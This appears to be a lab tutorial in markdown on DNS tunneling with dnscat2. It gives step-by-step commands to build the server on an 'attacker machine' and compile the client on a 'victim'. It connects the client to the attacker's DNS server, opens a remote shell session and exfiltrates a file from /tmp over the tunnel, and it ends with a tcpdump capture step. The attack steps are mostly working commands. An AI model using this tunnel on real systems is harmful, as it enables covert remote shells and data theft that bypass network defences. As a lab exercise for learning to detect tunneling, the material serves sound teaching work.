



# Set up DNS Tunneling

## Set up Lab

### Attacker machine

#### Step1 : Install <mark style="color:$danger;">`dnscat2`</mark> Server on Attacker Machine


```shellscript
sudo apt update
sudo apt install ruby ruby-dev git build-essential -y
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
sudo gem install bundler
sudo bundle install
```


1. install ruby


```shellscript
sudo apt install ruby ruby-dev git build-essential -y
```


<figure><figcaption></figcaption></figure>

2. **Clone the dnscat2 repo**


```shellscript
git clone https://github.com/iagox86/dnscat2.git
```


<figure><figcaption></figcaption></figure>

3. **Install Bundler (Ruby dependency manager)**


```shellscript
cd dnscat2/server
sudo gem install bundler
```


<figure><figcaption></figcaption></figure>

4. **Install required Ruby gems**


```
sudo bundle install
```


<figure><figcaption></figcaption></figure>

5. start the DNS server


```shellscript
sudo ruby dnscat2.rb attcker.local
```


<figure><figcaption></figcaption></figure>


save secret string


### Target machine

#### step 2 : Install the <mark style="color:$primary;">`dnscat2`</mark> Client on the Victim


```shellscript
sudo apt update
sudo apt install git build-essential cmake -y
sudo apt install golang git
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make
```


1. install Build tool

<figure><figcaption></figcaption></figure>

2. Install go and git


```shellscript
sudo apt install golang git
```


<figure><figcaption></figcaption></figure>

3. **Clone the dnscat2 repo**


```shellscript
git clone https://github.com/iagox86/dnscat2.git
```


<figure><figcaption></figcaption></figure>

4. **Compile the client**


```shellscript
cd dnscat2/client
make
```


<figure><figcaption></figcaption></figure>

3. use the dnscat2 client tool on the target machine


we had already started the dnscat2 server on the attacker machine



```shellscript
./dnscat --dns server=x.x.x.x,port=53,domain=attcker.local --secret=xxxxxxx
```


<figure><figcaption></figcaption></figure>

***

### Exfiltration

1. create a sample data in target machine&#x20;


```shellscript
echo "Confidential-Data-12345" > /tmp/secret.txt
```


2. set up shell


```
sessions
session -i 1
sell
Ctr+z
session -i 2 
whoami
```



```shellscript
download /tmp/secret.txt secret_exfil.txt
```


#### monitoring traffinc


```shellscript
sudo tcpdump -i any port 53 -w dns_traffic.pcap
```


